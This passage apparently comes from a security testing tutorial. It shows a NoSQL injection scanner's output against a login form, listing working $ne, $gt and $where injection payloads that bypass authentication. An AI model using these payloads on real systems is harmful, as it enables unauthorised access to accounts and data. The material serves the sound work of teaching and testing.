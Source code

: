 ```shell

Test 1: PHP/ExpressJS != associative array injection
Successful injection!

Test 2:  PHP/ExpressJS > Undefined Injection
Successful injection!
Test 3: $where injection (string escape)
Successful injection!

Test 4: $where injection (integer escape)
Successful injection!

Test 5: $where injection string escape (single record)
Successful injection!

Test 6: $where injection integer escape (single record)
Successful injection!

Test 7: This != injection (string escape)
Successful injection!

Test 8:  This != injection (integer escape)
Successful injection!

Exploitable requests:
{'email': '[email protected]', 'password[$ne]': '[email protected]'}
{'email': '[email protected]', 'password[$gt]': ''}
{'password': "a'; return db.a.find(); var dummy='!", 'email': '[email protected]', 'password[$gt]': ''}
{'password': '1; return db.a.find(); var dummy=1', 'email': '[email protected]', 'password[$gt]': ''}
{'password': "a'; return db.a.findOne(); var dummy='!", 'email': '[email protected]', 'password[$gt]': ''}
{'password': '1; return db.a.findOne(); var dummy=1', 'email': '[email protected]', 'password[$gt]': ''}
{'password': "a'; return this.a != '[email protected]'; var dummy='!", 'email': '[email protected]', 'password[$gt]': ''}
{'password': "1; return this.a != '[email protected]'; var dummy=1", 'email': '[email protected]', 'password[$gt]': ''}

Possibly vulnerable requests:

Timing based attacks:
String attack-Unsuccessful
Integer attack-Unsuccessful

```

The results show that the injection was successful with multiple requests, and we could carry on to check these out manually. As you may recall from a previous section, we just identified an authentication bypass!
